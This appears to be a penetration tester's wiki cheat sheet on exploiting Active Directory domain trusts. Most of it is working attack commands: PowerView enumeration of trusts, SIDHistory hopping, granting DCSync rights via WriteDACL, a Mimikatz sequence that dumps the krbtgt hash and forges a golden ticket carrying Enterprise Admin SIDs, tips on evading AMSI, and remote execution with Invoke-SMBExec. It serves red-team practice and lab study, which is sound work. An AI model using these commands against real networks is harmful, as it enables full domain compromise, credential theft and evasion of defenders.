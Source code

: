 # Active Directory Domain Exploitation

_"Note that the Active Directory domain is not the security boundary; the AD forest is."_ - [Sean Metcalf](https://adsecurity.org/?p=1640)

For [[AD-Forest-Exploitation]] - one day...

#### Trust Definitions

For more depth and related information consider reading [[Active-Directory]].

Domain Trust Typology:
- Inbound - Domain A  is trusted by Domain B (Domain A gains access to resources in B) 
- Outbound - Domain A trust is outbound to another Domain B (Domain B gains access to resources in A) 
- Bidirectional - Both Domains A and B trust one another both gains access to resources in each other 
- [Transitive](https://learn.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust) - *"Transitivity determines whether a trust can be extended outside of the two domains with which it was formed.
	- *A transitive trust can be used to extend trust relationships with other domains.*
	- *A non-transitive trust can be used to deny trust relationships with other domains.*"

[harmj0y's](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/) Domain Trust Attack Strategy
1) Enumerate all trusts 
2) Enumerate all users/groups/computers that either:
	- Have access to resources
	- Are in groups or have users from another domain
3) Perform targeted account compromise 

Enumerate with: Bloodhound, .NET methods,  Win32API, LDAP, PowerView.ps1

[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts) + [[PowerView-Cheatsheet]]
```powershell
# Get Child domain FQDN
$env:userdnsdomain
# Get Forest Object
PV2 > Get-NetForest [-Forest megacorp.local]
PV3 > Get-Forest [-Forest megacorp.local]
# Get all domains in a forest:
PV2 > Get-NetForestDomain [-Forest megacorp.local]
PV3 > Get-ForestDomain [-Forest megacorp.local]
# Enumerate trusts for current domain via .NET 
nltest /trusted_domains
# Enumerate trusts via Win32 API (PowerView):
PV2 > Get-NetDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust -API [-Domain megacorp.local] | ft
# Enumerate trusts via LDAP (PowerView):
PV2 > Get-NetDomainTrust -LDAP [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust [-Domain megacorp.local] | ft
```
SIDHistory/ExtraSIDs hopping
```powershell
netdom.exe trust $childDomain.$domain.$tld /domain:$domain.$tld /quarantine
```

#### WriteDACL

`WriteDACL` to a domain, give DCSync rights to an unprivileged domain user account
```powershell
AddDomainObjectAcl -TargetIdentity "DC=,DC=local" -PrincipleIdentity $user -Rights DCSync
# Deprecate way
Add-DomainObjectAcl -Credential $Cred -TargetIdentity $domain.local -Rights DCSync
```

#### Ticket Attacks

Consider your options: [[Silver-Tickets]], [[Golden-Tickets]], [[Diamond-Tickets]] and [[Sapphire-Tickets]], but weight up the Opsec concerns. For a cross-trust [[Golden-Tickets]] with [[Mimikatz-Cheatsheet]] or [[Rubeus-Cheatsheet]]
```powershell
# import-module | . .\PowerView.ps1  -- somehow - beware AMSI and Blue
# Get Child domain FQDN:
PS > $env:userdnsdomain
# Child domain's DC machine account and its RID:
PV2 > (Get-NetComputer -ComputerName DC01.$childDomain.$domain.$tld -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.$childDomain.$domain.$tld | select ObjectSID).ObjectSID

# Get child domain SID
PV > Get-DomainSID
# SID of the parent domain
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
# Create ticket with
# Mimkatz 
# Remember to cycle through exfil and catagorise for data handling
privilege::debug
log
token::elevate
!+
lsadump::dcsync /user:$domainTargeting\krbtgt
# Altered From https://tryhackme.com/room/exploitingad
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<sid of the child dc> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
# rubeus
```

####  SMBExec.ps1

If you can cross trust and SMB is open a very non-OPSEC safe way would be to use [Invoke-TheHash - InvokeSMBExec](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1) to perform command execution over the network to remotely to achieve objectives.  


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[burmat](https://burmat.gitbook.io/security/hacking/domain-exploitation)
[harmj0y's guide to attacking domain trusts](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/)
[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts)
[Sean Metcalf quote](https://adsecurity.org/?p=1640)